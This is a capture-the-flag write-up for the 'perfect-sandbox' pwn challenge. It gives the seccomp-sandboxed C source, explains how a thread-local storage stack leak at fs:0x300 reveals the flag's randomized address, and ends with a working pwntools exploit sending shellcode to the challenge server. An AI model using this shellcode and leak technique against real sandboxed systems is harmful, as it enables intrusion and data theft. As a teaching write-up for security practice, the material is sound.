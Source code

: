perfect-sandbox was a pwn challenge with 49 solves. here is its source code:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <err.h>
#include <time.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <string.h>
#include <linux/seccomp.h>
#include <seccomp.h>

void setup_seccomp () {
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    int ret = 0;
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    ret |= seccomp_load(ctx);
    if (ret) {
        errx(1, "seccomp failed");
    }
}

int main () {
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char * tmp = mmap(NULL, 4096, PROT_READ | PROT_WRITE, MAP_ANON | MAP_PRIVATE, -1, 0);

    int urandom = open("/dev/urandom", O_RDONLY);
    if (urandom < 0) {
        errx(1, "open /dev/urandom failed");
    }
    read(urandom, tmp, 4);
    close(urandom);

    unsigned int offset = *(unsigned int *)tmp & ~0xFFF;
    uint64_t addr = 0x1337000ULL + (uint64_t)offset;

    char * flag = mmap((void *)addr, 4096, PROT_READ | PROT_WRITE, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (flag == MAP_FAILED) {
        errx(1, "mapping flag failed");
    }

    int fd = open("flag.txt", O_RDONLY);
    if (fd < 0) {
        errx(1, "open flag.txt failed");
    }
    read(fd, flag, 128);
    close(fd);

    char * code = mmap(NULL, 0x100000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    if (code == MAP_FAILED) {
        errx(1, "mmap failed");
    }

    char * stack = mmap((void *)0x13371337000, 0x4000, PROT_READ | PROT_WRITE, MAP_ANON | MAP_PRIVATE | MAP_GROWSDOWN, -1, 0);
    if (stack == MAP_FAILED) {
        errx(1, "failed to map stack");
    }

    printf("> ");
    read(0, code, 0x100000);

    setup_seccomp();

    asm volatile(
        ".intel_syntax noprefix\n"
        "mov rbx, 0x13371337\n"
        "mov rcx, rbx\n"
        "mov rdx, rbx\n"
        "mov rdi, rbx\n"
        "mov rsi, rbx\n"
        "mov rsp, 0x13371337000\n"
        "mov rbp, rbx\n"
        "mov r8,  rbx\n"
        "mov r9,  rbx\n"
        "mov r10, rbx\n"
        "mov r11, rbx\n"
        "mov r12, rbx\n"
        "mov r13, rbx\n"
        "mov r14, rbx\n"
        "mov r15, rbx\n"
        "jmp rax\n"
        ".att_syntax prefix\n"
        :
        : [code] "rax" (code)
        :
    );
}
```

Lets explain the code:
Firstly, the `setup_secomp` function will be called, which limits all the syscalls our shellcode can use, to just `read`, `write`, `exit`.
first of all, a new page is created using the `mmap` function, it reads a random number to it.
Then, it will add this random number to 0x1337000ULL, and mmap a new page, which it reads the flag into.
Then, it will allocate a new memory which is executable, which our assembly will be stored at.
And lastly, it will allocate a memory for our stack, in address 0x13371337000.

Now it will read our assembly code, run this code:
```asm
    asm volatile(
        ".intel_syntax noprefix\n"
        "mov rbx, 0x13371337\n"
        "mov rcx, rbx\n"
        "mov rdx, rbx\n"
        "mov rdi, rbx\n"
        "mov rsi, rbx\n"
        "mov rsp, 0x13371337000\n"
        "mov rbp, rbx\n"
        "mov r8,  rbx\n"
        "mov r9,  rbx\n"
        "mov r10, rbx\n"
        "mov r11, rbx\n"
        "mov r12, rbx\n"
        "mov r13, rbx\n"
        "mov r14, rbx\n"
        "mov r15, rbx\n"
        "jmp rax\n"
```
and then it will run our assembly.
the challenge is not so simple, because we can't just do a open-read-write to the flag, because we can't do open. we would need to read it from the mmaped memory.
But, the problem is that all the registers are 0x13371337, so we can't do anything. but is it true?

In x86-64 there are 3 TLS entries, two of them accesible via FS and GS registers, FS is used internally by glibc (in IA32 apparently FS is used by Wine and GS by glibc).
This can give us a lot of information! lets read some bytes from it using gdb:
![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/eba6d341-7113-4038-b68a-a119152f6cd8)

We can see that at the end, in offset 0x300, there is a stack leak! this is pretty strong, because the flag address is stored in the stack.
after dumbing some memory before/after this address, we can see that at this address - 0x50, there is a pointer to the flag. then we can just use the write syscall to write it.
Exploit:
```py
from pwn import *

context.arch = 'amd64'

p = remote('amt.rs', 31173)

p.recvuntil('> ')
shellcode = "mov rcx, qword ptr fs:0x300\n"
shellcode += "mov rdi, [rcx-0x50]"
shellcode += shellcraft.write(1,'rdi',100)

p.sendline(asm(shellcode))
p.interactive()
```
